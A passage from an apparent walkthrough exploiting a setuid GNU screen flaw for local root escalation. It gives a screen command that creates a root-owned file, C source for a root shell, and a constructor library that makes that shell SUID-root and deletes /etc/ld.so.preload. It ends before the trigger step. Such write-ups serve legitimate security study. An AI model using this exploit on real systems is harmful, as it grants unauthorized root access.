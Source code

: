 ``screen -D -m -L test echo "just testing"``

``ls -l test``

![16](images/test_1.jpg)

+ **And the file owner is root.**
**Let's exploit this vulnerability.**
**First, let's create a C program so we can generate a root shell and compile it.**
**We're gonna create it in the /tmp directory**

```C
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int main(void)
{
 // set user as root;
 setuid(0);
 setgid(0);
 seteuid(0);
 setegid(0);

 // spawn a shell;
 system("/bin/bash");
}
```

```console
gcc root_sh.c -o root_sh
```

+ **We have to make another little thing;**
**if we run the executable, we'll do it as our user.**
**So we need to change the ownership and permission of the file so we can run it as root.**
**To do this, we'll create a dynamic library file and then compile it.**
**Create it into the /tmp directory too.**

```C
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <unistd.h>

__attribute__ ((__constructor__))

void libshell(void)
{
    chown("/tmp/root_sh", 0, 0);
    chmod("/tmp/root_sh", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] shell loaded!\n");
}
```
